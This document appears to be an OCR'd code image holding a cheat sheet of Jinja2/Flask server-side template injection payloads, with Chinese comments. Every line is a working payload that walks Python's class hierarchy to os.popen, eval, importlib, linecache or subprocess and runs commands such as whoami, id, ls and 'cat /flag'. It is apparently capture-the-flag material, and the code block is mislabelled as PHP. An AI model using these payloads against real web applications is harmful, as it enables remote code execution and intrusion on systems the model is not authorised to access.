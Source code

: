 ```php

{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()}}


\#调用os的popen执行命令
\#python2、python3通用
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('ls /flag').read()}}
{{[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].popen('cat /flag').read()}}
{{''.__class__.__base__.__subclasses__()[185].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}
\#python3专属
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}


\#调用eval函数读取
\#python2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} 
{{"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')}}
\#python3
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}} 
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']}}
{{"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


\#调用 importlib类
{{''.__class__.__base__.__subclasses__()[128]["load_module"]("os")["popen"]("ls /").read()}}


\#调用linecache函数
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache']['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}


\#调用communicate()函数
{{''.__class__.__base__.__subclasses__()[128]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}

```
